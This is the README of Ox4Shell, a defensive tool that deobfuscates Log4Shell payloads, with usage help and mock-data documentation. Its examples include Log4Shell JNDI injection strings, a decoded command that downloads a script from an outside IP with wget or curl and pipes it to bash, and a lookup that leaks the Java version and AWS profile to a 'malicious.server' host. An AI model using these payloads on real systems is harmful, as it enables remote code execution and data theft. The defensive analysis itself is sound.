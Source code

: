 ![Logo-Light](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/bright.png#gh-dark-mode-only)![Logo-Dark](https://gist.githubusercontent.com/oxeye-daniel/269eb41b379cf951d95ee4a23555db74/raw/e9b937b101cfc3b2a7dab83b640189adde1da287/dark.png#gh-light-mode-only)

<hr/>
<p align="center">
    <img alt="maintained-oxeye" src="https://img.shields.io/badge/maintained%20by-oxeye.io-blueviolet"/>
    <img alt="python-3.8" src="https://img.shields.io/badge/python-3.8-green"/>
    <img alt="version-1.1" src="https://img.shields.io/badge/version-1.1-blue"/>
    <img alt="license-mit" src="https://img.shields.io/badge/license-MIT-lightgrey"/>
</p>

# Ox4Shell
Deobfuscate Log4Shell payloads with ease.

## Description
Since the release of the Log4Shell vulnerability (CVE-2021-44228), many tools were created to obfuscate Log4Shell payloads,
making the lives of security engineers a nightmare.

This tool intends to unravel the true contents of obfuscated Log4Shell payloads. 

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```

This tool also aids to identify and decode base64 commands
For example, consider the following obfuscated payload:
```text
${jndi:ldap://1.1.1.1:1389/Basic/Command/Base64/KHdnZXQgLU8gLSBodHRwOi8vMTg1LjI1MC4xNDguMTU3OjgwMDUvYWNjfHxjdXJsIC1vIC0gaHR0cDovLzE4NS4yNTAuMTQ4LjE1Nzo4MDA1L2FjYyl8L2Jpbi9iYXNoIA==}
```

After running Ox4Shell, the tool reveals the attacker’s intentions:
```text
${jndi:ldap://1.1.1.1:1389/Basic/(wget -O - http://185.250.148.157:8005/acc||curl -o - http://185.250.148.157:8005/acc)|/bin/bash
```

⚠️ We recommend running `Ox4Shell` with a provided file (`-f`) rather than an inline payload (`-p`), because certain 
shell environments will escape important characters, therefore will yield inaccurate results. 

## Usage
To run the tool simply:
```
~/Ox4Shell » python ox4shell.py --help
usage: ox4shell [-h] [-d] [-m MOCK] [--max-depth MAX_DEPTH] [--decode-base64] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by https://oxeye.io

General:
  -h, --help            Show this help message and exit
  -d, --debug           Enable debug mode (default: False)
  -m MOCK, --mock MOCK  The location of the mock data JSON file that replaces certain values in the payload (default: mock.json)
  --max-depth MAX_DEPTH
                        The maximum number of iteration to perform on a given payload (default: 150)
  --decode-base64       Payloads containing base64 will be decoded (default: False)

Targets:
  Choose which target payloads to run Ox4Shell on

  -p PAYLOAD, --payload PAYLOAD
                        A single payload to deobfuscate, make sure to escape '$' signs (default: None)
  -f FILE, --file FILE  A file containing payloads delimited by newline (default: None)```
```

## Mock Data
The Log4j library has a few unique lookup functions, which allow users to look up environment variables, runtime 
information on the Java process, and so forth. This capability grants threat actors the ability to probe for specific 
information that can uniquely identify the compromised machine they targeted.

Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

The default set of mock data provided is:
```json
{
    "hostname": "ip-127.0.0.1",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "runtime": "OpenJDK Runtime Environment (build 1.8.0_181-b13) from Oracle Corporation",
        "vm": "OpenJDK 64-Bit Server VM (build 25.181-b13, mixed mode)",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64",
        "locale": "default locale: en_US, platform encoding: UTF-8",
        "hw": "processors: 1, architecture: amd64-64"
    }
}

```

As an example, we can deobfuscate the following payload using the Ox4Shell's mocking capability:
```bash
~/Ox4Shell >> python ox4shell.py -p "\${jndi:ldap://\${sys:java.version}.\${env:AWS_PROFILE}.malicious.server/a}"  
${jndi:ldap://16.0.2.staging.malicious.server/a}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the project is licensed under the MIT license, which you can find in the LICENSE file.
